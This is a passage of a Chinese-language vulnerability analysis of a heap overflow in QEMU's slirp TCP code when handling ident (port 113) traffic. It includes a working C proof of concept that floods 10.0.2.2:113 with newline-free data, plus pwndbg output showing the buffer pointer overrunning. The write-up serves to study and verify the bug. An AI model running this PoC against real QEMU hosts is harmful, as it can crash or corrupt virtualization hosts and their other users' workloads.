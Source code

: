 我们主要观察的就是`ti->ti_len <= sbspace(&so->so_rcv))`这行代码，为`EMU_IDENT`协议时，如果我们的m->m_data数据中一直没有包含`\r` or `\n`，so_rcv->sb_cc数据就不会更新，`sbspace(&so->so_rcv)`就一直等于`so_rcv->sb_datalen`，导致不停的进行`memcpy`，造成堆溢出。

### poc与调试验证

#### poc

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main() {
	int s;
	struct sockaddr_in ip_addr;
	char buf[0x1000];

	s = socket(AF_INET, SOCK_STREAM, 0);
	ip_addr.sin_family = AF_INET;
	// inet_addr()的功能是将一个点分十进制的IP转换成一个长整数型数
	ip_addr.sin_addr.s_addr = inet_addr("10.0.2.2");
	ip_addr.sin_port = htons(113);

	connect(s,(struct sockaddr *)&ip_addr, sizeof(struct sockaddr_in));
	//memset(buf,'A',0x999);
	//buf[0x999] = '\r';  如果将下面的memset(buf,'A',0x1000);换成这两行，so_rcv->sb_cc就会发生变化
	memset(buf,'A',0x1000);
	while(1){
		write(s,buf,0x1000);
	}
	return 0;
}
```

断点在`b /home/zhz/QEMU/qemu/slirp/tcp_subr.c:638`也就是`memcpy(so_rcv->sb_wptr, m->m_data, m->m_len);`

在第一次拷贝前，so_rcv结构体的数据为：

```shell
pwndbg> print *so_rcv
$1 = {
  sb_cc = 0, 
  sb_datalen = 8760, 
  sb_wptr = 0x7ffff02396b0 "\350\a", 
  sb_rptr = 0x7ffff02396b0 "\350\a", 
  sb_data = 0x7ffff02396b0 "\350\a"
```

同时因为m->m_data中不包含`\r` or `\n`，会直接跳过`if (strchr(m->m_data, '\r') || strchr(m->m_data, '\n'))`，拷贝完的结果就变成了：

```shell
pwndbg> print *so_rcv
$2 = {
  sb_cc = 0, 
  sb_datalen = 8760, 
  sb_wptr = 0x7ffff0239c64 "", 
  sb_rptr = 0x7ffff0239c64 "", 
  sb_data = 0x7ffff02396b0 'A' <repeats 200 times>...
}
```

指针移动了，但是`sb_cc`却毫无任何变化。多进行几次就超出了`sb_datalen`的范围造成溢出，导致崩溃